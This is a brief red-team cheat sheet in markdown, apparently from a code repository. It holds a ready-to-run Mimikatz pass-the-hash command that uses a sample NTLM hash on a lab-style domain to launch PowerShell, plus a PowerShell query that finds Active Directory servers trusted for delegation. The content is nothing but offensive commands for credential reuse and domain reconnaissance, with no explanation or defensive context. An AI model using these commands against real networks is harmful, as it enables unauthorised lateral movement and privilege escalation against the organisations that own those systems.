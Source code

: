# Red Team

## Mimikatz

### Pass the hash
```
sekurlsa::pth /user:pwnd.user /domain:hackersacademy.local /ntlm:fc525c9683e8fe067095ba2ddc971889 /run:powershell.exe
```

### Discover Servers Configured with Delegation
```
Get-AdComputer -Filter {(TrustedForDelegation -eq $True) -AND (PrimaryGroupID -eq 515) } -Properties TrustedForDelegation, TrustedToAuthForDelegation,servicePrincipalName,Description
```
